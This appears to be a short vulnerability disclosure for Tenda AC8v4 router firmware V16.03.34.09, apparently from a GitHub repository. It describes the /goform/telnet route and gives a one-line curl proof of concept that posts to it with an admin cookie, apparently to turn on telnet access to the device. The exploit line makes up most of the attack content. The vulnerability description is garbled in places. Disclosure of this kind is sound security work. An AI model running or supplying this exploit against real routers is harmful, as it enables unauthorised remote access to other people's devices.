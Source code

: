 # TendaAC8v16.03.34.09telnet

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103683

## Affected version

AC8v4 V16.03.34.09

## Vulnerability details

An issue was discovered in AC8v4 V16.03.34.09 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![1736491008100](F:\Desktop\工具\二进制漏洞\IoT\img\1736491008100.png)

## POC

```python
curl -i -X POST http://192.168.1.100/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![1736490981974](F:\Desktop\工具\二进制漏洞\IoT\img\1736490981974.png)

